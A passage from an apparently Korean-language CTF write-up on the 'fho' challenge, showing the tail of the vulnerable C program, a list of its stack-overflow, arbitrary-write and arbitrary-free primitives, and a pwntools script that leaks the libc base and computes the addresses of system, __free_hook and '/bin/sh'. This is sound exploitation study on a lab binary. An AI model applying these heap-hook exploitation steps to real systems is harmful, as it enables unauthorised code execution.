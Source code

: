 ```c
  *addr = value;

  puts("[3] Arbitrary-Address-Free");
  printf("To free: ");
  scanf("%llu", &addr);
  free(addr);

  return 0;
}
```

### Vulnerability scanning

- `checksec`
    
    <p align="center">
		<a href="/assets/images/TIL220804/Untitled (2).png">
		<img src="/assets/images/TIL220804/Untitled (2).png" width="600">
    	</a>
	</p>
    
- [1] Stack buffer overflow 파트에서 **stack buffer overflow**가 발생한다. Stack buffer overflow가 **한 번만 발생**하기 때문에 stack을 overwrite할 수는 없지만, **특정 값을 읽어내는 데에는 사용**할 수 있다.
- [2] Arbitrary-Address-Write 파트를 이용해 **원하는 주소에 원하는 값을 쓸 수 있다**.
- [3] Arbitrary-Address-Free 파트를 이용해 원하는 주소의 memory를 free할 수 있다.

### Library의 변수, 함수들의 주소 구하기

Stack에는 `main`의 return address인 `__libc_start_main`의 주소가 적혀 있다. 이 함수는 `libc.so`에 정의되어 있으므로 이 주소를 이용해 `__free_hook`, `system`, `"/bin/sh"`의 주소를 얻을 수 있을 것이다.

```python
from pwn import *

p = process("./fho")
e = ELF("./fho")
libc = ELF("./libc-2.27.so")

# [1] Leak libc base
buf = b"A"*0x48
p.sendafter("Buf: ", buf)
p.recvuntil(buf)
libc_base = u64(p.recvline()[:-1].ljust(8, b"\x00")) - (libc.symbols["__libc_start_main"] + 231)
system = libc.symbols["system"] + libc_base
free_hook = libc.symbols["__free_hook"] + libc_base
binsh = next(libc.search(b"/bin/sh"))
```
